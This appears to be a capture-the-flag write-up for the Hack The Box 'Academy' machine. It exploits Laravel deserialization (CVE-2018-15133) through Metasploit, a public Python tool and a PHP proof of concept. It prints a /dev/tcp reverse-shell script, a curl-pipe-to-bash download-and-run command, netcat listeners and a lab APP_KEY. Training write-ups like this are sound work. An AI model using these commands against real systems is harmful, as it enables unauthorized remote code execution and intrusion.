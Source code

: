 ## With Metasploit:

```bash
msf6 > use exploit/unix/http/laravel_token_unserialize_exec
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set APP_KEY <App_key>
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set RHOSTS <RHOSTS>
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set LHOST <LHOST
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set payload payload/generic/shell_reverse_tcp
msf6 exploit(unix/http/laravel_token_unserialize_exec) > run

[*] Started reverse TCP handler on 10.10.14.168:4444 
[*] Command shell session 1 opened (10.10.14.168:4444 -> 10.10.10.215:44787) at 2023-07-25 14:12:32 -0400

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@academy:/$ export TERM=xterm
```

## Without Metasploit:
### Automated approach:
#### Setting up the tool:
```bash
$ git clone https://github.com/aljavier/exploit_laravel_cve-2018-15133.git
$ cd exploit_laravel_cve-2018-15133
$ pip install -r requirements.txt
```

#### Reverse shell:
1. Create a bash script `rev.sh` with the following command:
```bash
/usr/bin/bash -i >& /dev/tcp/tun0_IP/9999 0>&1
```
2. Start a python HTTP server on port 80 serving the bash script `rev.sh`
```bash
python3 -m http.server 80
```
3. Start a netcat listener on port 9999:
```bash
nc -nlvp 9999
```
4. Run the following `curl` command via the automated tool, by providing the `APP_KEY` variable that can be found in the environmental variables at `http://dev-staging-01.academy.htb`
```bash
python3 pwn_laravel.py -c "curl http://tun0_IP/rev.sh | bash" http://dev-staging-01.academy.htb dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
```
![2023-07-26 18_51_51-ParrotOS-HTB - VMware Workstation 17 Player (Non-commercial use only)](https://github.com/YounesTasra-R4z3rSw0rd/CTF-Scripts/assets/101610095/7f66a4c3-1f3a-41db-84a8-c180f69136b0)

### Manual approach:

1. Download the PHP POC script from [here](https://github.com/YounesTasra-R4z3rSw0rd/CTF-Scripts/blob/main/HTB/Academy/poc.php)
2. Open the poc.php file and make the necessary modification based on your environment
3. Start a netcat listener on a port of your choice (e.g.; 9999)
4. Run the following `curl` command:
```bash
curl -H "Cookie: laravel_session= $(php poc.php);" -v http://dev-staging-01.academy.htb
```
![2023-07-26 18_19_56-ParrotOS-HTB - VMware Workstation 17 Player (Non-commercial use only)](https://github.com/YounesTasra-R4z3rSw0rd/CTF-Scripts/assets/101610095/046a4e37-a707-419a-9e62-a98fb9aa15be)



